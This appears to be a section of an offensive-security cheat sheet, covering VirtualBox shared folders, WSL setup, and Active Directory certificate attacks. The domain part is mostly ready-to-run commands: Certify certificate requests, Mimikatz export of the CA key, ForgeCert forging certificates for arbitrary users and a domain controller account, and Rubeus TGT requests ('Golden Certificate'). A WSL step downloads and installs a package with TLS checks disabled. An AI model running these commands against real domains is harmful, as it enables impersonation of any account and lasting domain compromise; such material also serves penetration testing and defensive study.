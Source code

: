 ```ps1
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# then mount the folder in the VM
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```

### Windows Subsystem for Linux

```ps1
# List and install online packages
wsl --list --online
wsl --install -d kali-linux

# Use a local package
wsl --set-default-version 2
curl.exe --insecure -L -o debian.appx https://aka.ms/wsl-debian-gnulinux
Add-AppxPackage .\debian.appx

# Run the machine as root
wsl kali-linux --user root
```


## Domain

### User Certificate

```ps1
# Request a certificate for the User template
.\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User

# Convert the certificate for Rubeus
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request a TGT using the certificate
.\Rubeus.exe asktgt /user:username /certificate:C:\Temp\cert.pfx /password:Passw0rd123!
```

### Golden Certificate

> Require elevated privileges in the Active Directory, or on the ADCS machine

* Export CA as p12 file: `certsrv.msc` > `Right Click` > `Back up CA...`
* Alternative 1: Using Mimikatz you can extract the certificate as PFX/DER 
    ```ps1
    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
    ```
* Alternative 2: Using SharpDPAPI, then convert the certificate: `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
* [ForgeCert](https://github.com/GhostPack/ForgeCert) - Forge a certificate for any active domain user using the CA certificate
    ```ps1
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName harry@lab.local --NewCertPath harry.pfx --NewCertPassword Password123
    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@lab.local --NewCertPath dc.pfx --NewCertPassword Password123
    ```
* Finally you can request a TGT using the Certificate
    ```ps1
    Rubeus.exe asktgt /user:ron /certificate:harry.pfx /password:Password123
    ```